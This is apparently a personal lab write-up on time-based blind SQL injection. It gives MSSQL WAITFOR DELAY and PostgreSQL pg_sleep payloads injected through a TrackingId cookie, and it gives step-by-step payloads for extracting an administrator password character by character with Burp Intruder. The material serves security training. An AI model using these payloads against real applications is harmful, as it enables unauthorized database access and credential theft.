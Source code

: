# Exploiting blind SQL injection by triggering time delays

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server,
you can use the following to test a condition and trigger a delay depending on whether the expression is true:
```bash
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```
```bash
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
1) The first of these inputs does not trigger a delay, because the condition `1=2` is false.
2) The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:
```bash
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
## Basic Lab
1) Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie
2) Modify the TrackingId cookie, changing it to: <br> `TrackingId=x'||pg_sleep(10)--`
3) Submit the request and observe that the application takes 10 seconds to respond.

# Main Lab

1) Confirm time delat sql injection:<br> `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
2) Confirm there is user called administrator:<br> `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
3) Confirm characters of password:<br> `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--` <br> Condition should be true password has more character than 1
4) Continue it using burp intruder
5) Now to find content of password we will use this payload: <br> `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--` <br> then we will change `(password,2,1)='$a$)` to find second character of password and so on.

Perfect explanation on you tube: https://youtu.be/L2e6wrNj4BA
